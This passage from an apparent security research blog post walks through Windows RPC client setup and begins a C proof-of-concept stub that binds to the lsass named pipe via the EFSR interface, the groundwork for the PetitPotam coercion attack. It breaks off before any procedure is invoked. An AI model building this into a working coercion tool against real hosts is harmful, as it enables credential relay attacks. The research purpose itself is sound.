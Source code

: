![](/assets/posts/2021-09-02-from-rpcview-to-petitpotam/20_visual-studio-build-successful.png)

### Writing a PoC

We already went through a lot of steps at this point, and our application still does nothing. So it's time to see how to invoke a remote procedure. This process usually goes like this.

1. Call `RpcStringBindingCompose` to create the string representation of the binding, you can think of it as a URL.
2. Call `RpcBindingFromStringBinding` to create the binding handle based on the previous binding string.
3. Call `RpcStringFree` to free the binding string as we don't need it anymore.
4. Optionally call `RpcBindingSetAuthInfo` or `RpcBindingSetAuthInfoEx` to set explicit authentication information on our binding handle.
5. Use the binding handle to invoke remote procedures.
6. Call `RpcBindingFree` to free the binding handle.

In my case, this yields the following stub code:

```c
#include "efsr_h.h"
#include <iostream>

#pragma comment(lib, "RpcRT4.lib")

int wmain(int argc, wchar_t* argv[])
{
    RPC_STATUS status;
    RPC_WSTR StringBinding;
    RPC_BINDING_HANDLE Binding;

    status = RpcStringBindingCompose(
        NULL,                       // Interface's GUID, will be handled by NdrClientCall
        (RPC_WSTR)L"ncacn_np",      // Protocol sequence
        (RPC_WSTR)L"\\\\127.0.0.1", // Network address
        (RPC_WSTR)L"\\pipe\\lsass", // Endpoint
        NULL,                       // No options here
        &StringBinding              // Output string binding
```